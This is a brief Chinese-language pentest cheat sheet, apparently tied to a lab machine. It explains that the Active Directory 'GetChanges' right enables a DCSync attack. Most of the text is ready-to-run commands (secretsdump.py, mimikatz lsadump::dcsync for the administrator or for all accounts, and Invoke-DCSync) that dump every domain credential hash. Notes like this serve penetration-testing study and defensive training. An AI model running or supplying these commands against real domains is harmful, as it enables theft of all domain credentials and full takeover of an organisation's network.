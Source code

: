 # GetChanges

进行DCSync攻击，可以拿到所有hash，也可以执行拿admin

```clike
	脚本转储
secretsdump.py '【账户】:【密码】@10.10.10.175'
	mimikatz获取
（1.仅admin用户）.\mimikatz 'lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:administrator' exit
（2.获取全部）mimikatz.exe privilege::debug "lsadump::dcsync /domain:Mikasa.com /all /csv" exit
	ps1脚本
Import-Module .\Invoke-DCSync.ps1
Invoke-DCSync -PWDumpFormat
```
